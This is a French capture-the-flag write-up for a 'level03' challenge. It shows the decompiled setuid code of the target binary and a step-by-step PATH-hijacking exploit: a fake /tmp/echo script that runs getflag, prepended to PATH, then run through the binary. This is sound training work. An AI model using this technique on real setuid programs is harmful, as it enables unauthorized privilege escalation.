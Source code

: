 # Level03 :

**En arrivant sur la session on voit tout de suite un binaire "level03" a la racine et si on tente de le lancer on y voit "Exploit me" d'affiche**
**En utilisant ghidra on peut retrouver le code source de ce fichier binaire (voir level03.c)**
**on y voit une faille avec la partie ci-dessous qui donne les permissions d'execution du programme level03 au programme qu'il va executer dans les lignes suivantes.**
```c
__rgid = getegid();
__ruid = geteuid();
setresgid(__rgid,__rgid,__rgid);
setresuid(__ruid,__ruid,__ruid);
```
**puis un lancement de la commande "echo" depuis les variables d'environement, a ce stade la il suffit de faire pointer la commande echo vers un script que nous aurions developpe au prealable**

**On commence par creer le fichier "echo" dans le dossier "tmp"**
`printf '#!/bin/bash\ngetflag\n' > /tmp/echo`

**On lui ajoute les permissions d'execution**
`chmod +x /tmp/echo`

**Et enfin on l'ajoute a la variable d'environnement**
`export PATH="/tmp:$PATH"`

**Il ne reste plus qu'a l'executer:**
`./level03`

![finaly.png](./finaly.png)